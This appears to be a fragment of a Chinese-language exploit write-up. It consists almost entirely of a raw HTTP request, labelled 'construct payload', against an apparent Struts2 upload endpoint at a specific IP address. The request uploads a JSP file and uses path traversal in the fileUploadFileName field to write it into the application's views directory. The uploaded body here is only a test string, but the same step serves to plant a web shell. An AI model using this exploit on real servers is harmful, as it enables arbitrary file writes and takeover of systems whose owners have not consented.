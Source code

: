 构造 payload

```bash
POST /upload.action HTTP/1.1
Host: 47.99.57.31:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------21242332512857643478691364422
Content-Length: 408
Origin: http://47.99.57.31:8080
Connection: close
Referer: http://47.99.57.31:8080/elegant
Cookie: JSESSIONID=C0A792880BA03E5B98EE28FE1000AADA
Upgrade-Insecure-Requests: 1

-----------------------------21242332512857643478691364422
Content-Disposition: form-data; name="FileUpload"; filename="1.jsp"
Content-Type: text/plain

123
-----------------------------21242332512857643478691364422
Content-Disposition: form-data; name="fileUploadFileName";
Content-Type: text/plain

../../../views/header_icon/258.jsp
-----------------------------21242332512857643478691364422--
```
